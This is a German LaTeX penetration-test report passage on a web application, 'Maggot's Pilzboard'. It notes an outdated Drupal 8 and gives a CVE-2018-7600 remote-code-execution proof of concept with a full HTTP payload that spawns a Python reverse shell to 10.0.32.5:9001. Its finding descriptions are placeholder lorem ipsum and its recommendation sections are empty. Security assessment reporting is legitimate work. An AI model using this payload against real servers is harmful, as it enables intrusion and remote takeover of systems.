\pagebreak
\chapter{Maggot's Pilzboard}

\begin{figure}[!ht]
    \centering
    
\includegraphics[width=\linewidth]{images/screenshots/07_pilzboard.png}
    \caption{Webanwendung Maggot's Pilzboard}
    \label{fig:05_pilzboard}
\end{figure}
\newpage

\cvss{av=local, ac=high, pr=high, ui=required, s=unchanged, c=low, i=low, a=low}
\cvssdescription{Etiam risus sapien, ornare at dui ut, semper eleifend arcu. In fermentum felis ut ornare convallis. Donec ultrices condimentum neque ut semper.}

\section{\makecvssbadge Maggot's Pilzboard: Informationsfreigabe}
\cvssaddtosummary{Maggot's Pilzboard: Informationsfreigabe}

\subsection*{Proof of concept}
Über den Footer der Anwendung kann herausgefunden werden, dass es sich um eine Drupal Webanwendung handelt. Die Webanwendung verwendet Drupal in der Version 8, welche eine veraltete Versionen ist und Sicherheitslücken aufweist.
\begin{figure}[!ht]
    \centering
    
\includegraphics[width=\linewidth]{images/proofs/05_pilzboard_proof.png}
    \caption{Proof für die Webanwendung Maggot's Pilzboard}
    \label{fig:05_pilzboard_proof}
\end{figure}

\subsection*{Empfehlungen}

\cvss{av=network, ac=low, pr=none, ui=required, s=changed, c=high, i=high, a=high}
\cvssdescription{Etiam risus sapien, ornare at dui ut, semper eleifend arcu. In fermentum felis ut ornare convallis. Donec ultrices condimentum neque ut semper.}

\section{\makecvssbadge Maggot's Pilzboard: Remote Code Execution}
\cvssaddtosummary{Maggot's Pilzboard: Remote Code Execution}

\subsection*{Proof of concept}
Über einen bekannten Exploit mit der CVE Nummer CVE-2018-7600 kann Code auf dem kompromitiertem Drupal System ausgeführt werden. Dies ermöglicht es direkt eine Reverse Shell zu dem System herstellen zu können. Der HTTP Request des Exploits kann mit einem Tool wie der Burpsuite intercepted und die Payload angepasst werden. Die Playoad zum Starten einer Reverse Shell ist in folgendem Listing aufgeführt:


\begin{listing}[!ht]
\begin{minted}{bash}
POST /routers/cancel-order.php HTTP/1.1 
Host: 10.0.68.122
[...]
'form_id': 'user_register_form', '_drupal_ajax': '1', 'mail[#post_render][]': 'exec', 'mail[#type]': 'markup', 'mail[#markup]': 'python3+-c+'import+socket,subprocess,os%3bs%3dsocket.socket(socket.AF_INET,socket. SOCK_STREAM)%3bs.connect(("10.0.32.5",9001))%3bos.dup2(s.fileno(),0)%3b+os.dup2( s.fileno(),1)%3b+os.dup2(s.fileno(),2)%3bp%3dsubprocess.call(["/bin/sh","-i"])%3b''
\end{minted}
\caption{Reverse Shell}
\label{listing:pilzboard:reverseshell}
\end{listing}

\subsection*{Empfehlungen}